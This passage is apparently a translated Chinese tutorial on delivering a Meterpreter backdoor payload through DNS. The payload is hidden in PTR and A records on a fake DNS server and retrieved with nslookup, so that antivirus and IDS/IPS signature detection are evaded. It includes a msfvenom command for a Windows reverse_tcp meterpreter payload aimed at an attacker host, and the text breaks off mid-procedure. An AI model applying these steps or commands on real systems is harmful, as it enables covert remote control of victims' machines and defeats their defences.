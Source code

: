 很不幸运的是，各种杀软为检测恶意代码，监控网络流量，监控及扫描内存的，却不是很有效。甚至大多数杀软不管是否有IPS/IDS特性，都是根本无效的。

例子：后门载荷隐藏在拥有PTR记录和A记录的DNS域中。

[![](https://p4.ssl.qhimg.com/t019a8db0f553f41732.png)](https://p4.ssl.qhimg.com/t019a8db0f553f41732.png)

图 1：DNS域(IP地址到DNS全称域名)

注：图片一的红色翻译：

第一行：Meterpreter载荷的第一行数据  `{`载荷`}`.1.com

左下方：时间设置，后门核心代码每十分钟重连一次攻击者，每5分钟建立一次连接。1.1.`{`10`}`.`{`5`}`

右下方：绕过比如像Snort对DNS流量的基于特征检测攻击载荷的好办法(可能);-)，拆分攻击载荷到1-5记录。你可以利用NSLOOKUP来还原这些记录，每隔一段时间比如(每2分钟：获取一个记录)

正如你所见，这个DNS域中，我有两个很像是全称域名的PTR类型的记录，隐藏了Meterpreter载荷。还有两个PTR类型的记录保存了后门重连的时间设置，还有一个A类型的记录也是保存了时间设置。

拆分载荷数据到记录!  如果你想绕过防火墙或者IPS/IDS对DNS流量的基于特征的检测。

拆分的一个好办法是，把你的攻击载荷拆分到PTR类型的DNS记录里，或者其他你可以加密载荷并使用的协议里。这取决于你和你的目标网络。

正如图1里，我把Meterpreter载荷的第一行数据拆分到5个记录里。因此这些记录里的载荷等于记录1.1.1.0。

例子: 1.0.1.0 + 1.0.1.1 + 1.0.1.2 + 1.0.1.3 + 1.0.1.4 = 1.1.1.0。

在客户端，你可以使用其他的工具或者技术，从假冒的DNS服务器获取还原出这些载荷。不过，我打算利用NSLOOKUP命令行实时获取，因为我觉得这比较简单。

在图片2，我尝试用NSLOOKUP工具测试假冒的DNS服务器到客户端的DNS流量。

[![](https://p0.ssl.qhimg.com/t01d941e31381e7a178.png)](https://p0.ssl.qhimg.com/t01d941e31381e7a178.png)

图片2：Nslookup命令及DNS流量测试。

注：图2里的红色翻译如下：Meterpreter载荷通过DNS协议传输的流量。现在怎么检测呢？有思路吗？

现在我要讲下，怎么样在Linux里创建假冒的DNS服务器，以及Meterpreter载荷如何保存拆分到DNS记录。最后我要利用我的工具NativePayload_DNS.exe来执行这些载荷，并得到一个Meterpreter连接会话。

步骤1:一步步的创建拥有Meterpreter载荷的假冒DNS服务器：

本步骤中，你可以利用Msfvenom创建一个Meterpreter载荷，像图片4中那样。并把载荷一行一行的拷贝到dns.txt文件中，然后利用DNSSpoof在Kali Linux中创建一个假冒的DNS服务器。

不过我首先展示EXE模式的Meterpreter载荷，并用所有的杀软测试，然后你会发现绝大多数杀软都可以检测出来。

为什么我要展示着一点呢？

因为我想表明给你看，同一个攻击载荷，用两种技术，一是EXE模式，二是DNS传输。你会看到杀软可以检测出EXE模式的载荷，但是不能检测出利用第二个技术”DNS传输”的载荷。但我们知道这两种方法是同一个载荷。

例子1 , EXE模式的载荷: msfvenom –-platform windows –arch x86_64 –p windows/x64/meterpreter/reverse_tcp lhost=192-168-1-50 –f exe &gt; /root/Desktop/payload.exe

下边图3你会看到，我的EXE模式的载荷被11款杀软检测出来了。

[![](https://p1.ssl.qhimg.com/t018a0a7a2802ea6c8c.png)](https://p1.ssl.qhimg.com/t018a0a7a2802ea6c8c.png)

图3：EXE模式的载荷被检测出来了。

好了，现在该用第二种技术了，生成载荷时使用了C类型。
